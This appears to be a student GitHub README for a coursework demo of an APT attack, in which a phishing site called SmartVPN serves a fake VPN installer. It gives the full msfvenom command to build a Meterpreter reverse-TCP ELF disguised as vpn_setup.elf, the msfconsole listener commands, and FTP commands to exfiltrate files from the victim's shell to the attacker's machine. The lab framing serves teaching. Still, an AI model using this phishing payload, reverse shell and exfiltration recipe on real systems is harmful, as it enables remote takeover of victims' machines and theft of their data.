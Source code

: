 ## SmartVPN

This is a repository containing code for demonstration of APT attacks for Introduction to Cyber Security Coursework in IIIT Sricity.

This repo contains the server-side rendering code for a phishing website called as Smart VPN which has a maliicous .elf executable file as vpn_setup.elf which as the name suggests, is a fake VPN setup file which if executed, can open a connection to the attacker and spawn a shell of the victim's machine at the attacker's end.

We are setting up a reverse shell on the victim's computer which will connect to the attacker's machine which is listening to the connection request from any machine after the malicious file has been sent!

Note: This is only for educational purposes!


## Project Contributors

- Pranauv Kumar - S20210010186
- Rahul Agarwal - S20210010187
- Sai Swetha M - S20210010143
- Anurag Yadav - S20210010026

## Some Information on APT

APTs are sophisticated, targeted cyber attacks
conducted by well-funded and highly skilled threat
actors.

One reknowned example of APT is APT28 -it is associated
with Russian state-sponsored hacking groups.

There are 5 Steps in APT :-
1) Reconnaisance and Weaponization - This is where where attacker collect information about the target organization by investigating its employees, partners, or customers and makes a malicious weapon well-crafted for one particular target inside the organization!
2) Delivery and Initial Intrusion - This is where they send the malware into the system inside a network they want to hack (thru various methods like Phishing mails, Water Holing Attack, etc) and get hold of a computer in the org's network.
3) Command and Control - This is where the attacker sets up Remote Access Tools / Backdoors in the victim's computer to access his computer when the host program is not running also.
4) Lateral Movement - This is where the attacker maps the org's devices through one compromised device and travels between them to get as much information as possible ( in a very slow manner so as to not alert the systems )
5) Data Exfiltration - This is where the collected data is sent to the attacker through any means like social media websites, file transfers, etc.

## How to Make It Work!

For demonstration, we need two Virtual Machines - Kali Linux and Ubuntu Linux default setup with FTP servers (VSFTPD preferably - installation not in the scope of this repository).

Note, here we are having 2 VMs in the same network for ease of demonstration and the IP addresses are on the basis of that!

Kali's IP - 192.168.100.4 and Ubuntu's IP - 192.168.100.5

In Kali Linux,

Firstly, Clone the project to have the Fake VPN Website ready for the victim to download the malicious VPN setup file. 

```bash
git clone https://github.com/Pranauv-Kumar1803/ICS.git
```

Go to the project directory

```bash
cd ICS
```

Install dependencies in both client and server folder

```bash
npm install
```

Start the server

```bash
npm start
```

Next, create the malicious .elf executable file using msfvenom toolkit. The code is as given below:
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.100.4 LPORT=4443 -f elf > vpn_setup.elf
```

Then, setup the Listener using msfconsole (Listen on the same host ip address and port as mentioned in the creatino of the .elf file code above):
```bash
msfconsole
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set lhost 192.168.100.4
set lport 4443
exploit
```

Now that the listener is up and running in the Kali, we go for Ubuntu.

From here, we access the SmartVPN website that is hosted on "192.168.100.4:8000" and download the vpn setup from the website and we run it!

Boom! Now, we have a hit in Kali Linux's Listener inside msfconsole and now we can access the victim's computer through the shell that was spawned!

After this, to just show the data exfiltration part, we use FTP to connect to the attacker's computer from the victim's shell in the msfconsole to exfiltrate some data (some random dummy.pdf files from victim's computer)

To do this, type the following in the shell spawned in the Kali Linux's Msfconsole,

```bash
shell
bash
ftp 192.168.100.4  #and enter kali's ftp password when prompted
put dummy.pdf ./   #to transfer dummy.pdf from victim's to attacker's computer
```

"put" command of FTP, sees the "dummy.pdf" in the main/default directory of ftp User in Ubuntu and transfers it to the default directory of Kali's ftp user.

Hence, we are done with the whole demonstration of APT!
